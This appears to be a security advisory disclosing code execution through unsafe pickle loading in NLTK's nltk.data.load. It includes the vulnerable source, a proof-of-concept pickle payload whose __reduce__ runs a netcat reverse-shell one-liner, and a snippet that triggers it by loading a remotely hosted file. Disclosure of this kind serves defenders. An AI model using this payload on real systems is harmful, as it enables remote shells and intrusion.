 ```yaml
---
layout: post
title:  "Command injection via unsafe pickle.loads in nltk.data.load in NLTK(Informative)"
date:  2024-06-28 10:31:06 +0800
categories: command-injection
---
```


## Name

> Command injection via unsafe pickle.loads in nltk.data.load

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 3.8.1

## Description

The NLTK api [`nltk.data.load`](https://www.nltk.org/api/nltk.data.html?highlight=load#nltk.data.load) is used to load a given resource from the NLTK data package, and it supports load pickle packages from remote sources. However, after the pickle file is downloaded, it uses `pickle.load` method to load the file which causing a malicious pickle file executing arbitrary code on victim's mechine.

The vulnerable function: [`nltk.data.load`](https://github.com/nltk/nltk/blob/8c233dc585b91c7a0c58f96a9d99244a379740d5/nltk/data.py#L754)

```
def load(
    resource_url,
    format="auto",
    cache=True,
    verbose=False,
    logic_parser=None,
    fstruct_reader=None,
    encoding=None,
):
    
    resource_url = normalize_resource_url(resource_url)
    resource_url = add_py3_data(resource_url)

    ...
    # Load the resource.
    opened_resource = _open(resource_url)

    if format == "raw":
        resource_val = opened_resource.read()
    elif format == "pickle":
        # vulnerable to code execution attacks !!!!!
        resource_val = pickle.load(opened_resource)
    elif format == "json":
    ...
```

## Proof of Concept

Firstly, create a malicious pickle file and upload to github.

### `payload.pickle`

Use following snippets to create a malicous pickle payload:

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

with open('payload.py.debug_pkl', 'wb') as f:
    pickle.dump(RCE(), f)
```

I have uploaded the [`payload.pickle`](https://raw.githubusercontent.com/sunriseXu/onnx/main/payload.pickle) to github for testing.


## Start attack

Install latest NLTK:

```
pip install nltk
```

Use following snippets to trigger the unsafe `pickle.loads` command injection:

```
from nltk.data import load
load("https://raw.githubusercontent.com/sunriseXu/onnx/main/payload.pickle")
```

After the command executed, we can check the `/tmp/f` file is created.

```
> ls -la /tmp/f
prw-r--r-- 1 kali kali 0 Jun 24 19:48 /tmp/f
```
## Colab

Tested on google colab: [https://colab.research.google.com/drive/160HoB0-PdFqOzBoUch7hj3n9olm2sfS1?usp=sharing](https://colab.research.google.com/drive/160HoB0-PdFqOzBoUch7hj3n9olm2sfS1?usp=sharing)

![image](http://live.staticflickr.com/65535/53820920049_03d7b6ff6e_h.jpg)

## Impact

This vulnerability can have severe consequences. If victims load a malicious pickle file from remote sources using `nltk.data.load`, command injection can be achieved.


## Occurrences

[nltk.data.load#L754](https://github.com/nltk/nltk/blob/8c233dc585b91c7a0c58f96a9d99244a379740d5/nltk/data.py#L754)

